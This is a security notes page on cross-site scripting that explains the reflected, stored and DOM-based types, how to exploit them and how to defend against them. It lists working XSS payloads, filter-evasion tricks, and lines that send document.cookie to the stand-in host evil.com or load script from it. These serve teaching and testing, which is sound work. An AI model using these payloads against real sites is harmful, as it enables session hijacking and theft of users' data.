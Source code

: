 ```yaml
---
layout: page
title: Cross-Site Scripting (XSS)
parent: Web Application
grand_parent: Attacks
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
Cross-Site Scripting is a type of injection where JavaScript code can be injected into a website. A XSS attack is where an attacker has embedded malicious code, often in the form of a browser-side script that is then sent to an unsuspecting user when they request the webpage.

These attacks can occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

There are 3 types of XSS attacks:
- [Reflective XSS](#reflective-xss) - Injected code is reflected back to a user by the web application
- [Stored XSS](#stored-xss) - The injected code is stored on the webserver and is requested by the user
- [DOM-Based XSS](#dom-based-xss) - The injected code manipulates the client-side DOM, resulting in the execution of code on the victim's browser. 

## Reflective XSS
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes this as it appears to have come from a 'Trusted' server.

This can lead to various security issue, such as stealing user information (eg. credentials or tokens) or performing unauthorised actions on behalf of a user.

These attacks are often initiated by creating malicious links or forms that exploit vulnerabilities in the target application.

Sometimes referred to as Non-Persistent or Type-II XSS.

## Stored XSS
Stored attacks are those where the injected script is permanently stored on the target server, such as in a database, comment section, message forum etc. The victim then retries the script from the server when it requests the stored information.

Unlike reflective XSS, the injected code is not reflected back immediately but rather stored on the target server and delivered to other users later. This makes stored XSS attacks particularly dangerous, as the malicious code affects multiple users and can lead to unauthorized access, data theft, or even complete website compromise.

Sometimes referred to a Persistent or Type-II XSS.

## DOM-Based XSS
This attack occurs when an attacker injects and manipulates malicious code into the Document Object Model (DOM) of a webpage. In DOM-Based XSS attacks the malicious injected code is usually executed by JavaScript directly in the victim's browser, without being sent to the server.

The vulnerable webpage often includes JavaScript that reads data from the URL or user input and then dynamically updates the DOM, but fails to properly sanitize or validate the input, allowing injected code to be executed.

## Impacts of XSS
- Impersonating or masquerading as the victim user
- Hijacking a user's session
- Perform unauthorized actions on behalf of the user
- Steal sensitive information
- Perform phishing attacks
- Capture user credentials
- Capture keystrokes
- Deface the website / Edit its content
- Inject trojan functionality into the website

## Exploiting XSS
When exploiting an XSS vulnerability, you need to understand how the application behaves towards specific payloads. The following checklist can be used before exploiting an XSS vulnerability:
- Find the backlisted/filtered characters. XSS locators can be used for this: `'';! - "<XSS>=&{()}`
- Observe what tags are blocked by Web Application Firewall (WAF) and which keywords are allowed (`iframe`, `img`, `body` etc.)
- Try character encoding ([URL encoding](https://www.w3schools.com/tags/ref_urlencode.ASP), [Double URL encoding](https://owasp.org/www-community/Double_Encoding), UTF-8 Unicode encoding, Long UTF-8 Unicode encoding, Hex encoding etc.)
- Try [XSS using HTML quote encapsulation](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)
- Try [URL string evasion](https://docs.trellix.com/bundle/network-security-platform-application-notes/page/GUID-CCB698B2-851B-48DE-8E1F-93968ED36C2E.html)
- Create the payload list according to the allowed keywords
- Brute-force the application with the XSS payload list you just created

> Note: Double URL encoding can be tried since the first decoding process is performed by HTTP protocol and the resultant encoded URL will bypass the XSS filter.

### XSS Cheatsheet
A very useful OWASP XSS [cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
Another useful [cheatsheet repo & other links](https://github.com/RenwaX23/XSS-Payloads/tree/master)

#### XSS Locators
{% highlight HTML %}
'';!--"<XSS>=&{()}
{% endhighlight %}

#### Classic Payloads
{% highlight HTML %}
<svg/onload=alert(1)>
<script>alert(1)</script>
<script    >alert(1)</script>
<ScRipT>alert(1)</scRipT>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
{% endhighlight %}

#### HTML Tags
{% highlight HTML %}
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC= onmouseover="alert('xss')">
<IMG onmouseover="alert('xss')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
{% endhighlight %}

The `javascript:alert(1);` can be injected to run in-line java (eg. in a URL)

### Useful Example Situations
#### Bypass Angle Bracket Filter
In a Reflective XSS where the `<` & `>` are both blacklisted/encoded. You can still inject code if the user input is injected within a tag already. This relies on the `"` not being escaped as `&quot`.

{% highlight HTML %}
" onmouseover="alert(1)
{% endhighlight %}

Would result in something like a search box like:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="{{ user.input }}">
{% endhighlight %}

Being turned into:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert(1)">
{% endhighlight %}

#### String Subtraction Injection
If a variable is set of the user input eg.
{% highlight js %}
var userInput = '';
{% endhighlight %}

If you then take a string and subtract a function from it, it will in turn run the function. Eg.
{% highlight js %}
var userInput = ''-alert(1)-'';
{% endhighlight %}

So the payload would be `'-alert(1)-'`

## Defending from XSS
### Input Validation
#### Allow Lists - Recommended
- These lists reduce the input to a known attack surface
- Most inputs can be limited to alphanumeric to prevent XSS
- Special characters can be allowed on an exception basis

#### Deny Lists - No Recommended
- Only covers the known methods, could be exploited by creative attackers still

#### Client Side input validation - Not Recommended
- Can easily be bypassed by sending requests directly to the server
- Only useful for application usability

### Proven Validation and Encoding Functionality
- Protect both the input through validation and output through encoding - "defence in depth" principle
- Use proven, reputable libraries to protect the application
  - Its easy to make mistakes or not cover some edge cases when you write the functionality yourself
- Utilise a framework that has a central set of functionality that validates and encodes data
  - Protects you from missing some areas in your code and leaving those places exposed